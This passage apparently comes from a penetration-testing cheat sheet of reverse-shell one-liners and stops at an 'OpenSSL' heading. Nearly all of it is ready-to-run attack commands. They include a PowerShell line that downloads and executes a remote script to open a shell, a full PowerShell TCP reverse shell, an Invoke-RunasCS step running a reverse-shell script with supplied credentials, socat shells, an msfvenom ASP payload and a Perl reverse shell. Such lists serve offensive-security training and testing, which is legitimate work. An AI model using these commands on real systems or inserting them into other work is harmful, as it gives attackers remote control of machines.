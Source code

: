 ```
powershell -exec bypass "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.207/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.0.1 -Port 443"
```

### Invoke-RunasCS

**Step 1**

Upload reversePowershell and Invoke-RunasCS script

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.193',9002);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()
```

**Step 2**

Execute powershell using Invoke-RunasCS

```
Invoke-runasCs -Username USERNAME -Password PASSWORD -Command "powershell.exe -ep bypass C:\windows\system32\spool\drivers\color\revshell.ps1"
```

### Socat Powershell

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

### Socat Bash

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### ASP CMD

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.193 LPORT=9003 -f asp > thescriptkid.asp -a x86
```

### Perl

```
perl -e 'use Socket;$i="192.168.119.130";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### OpenSSL
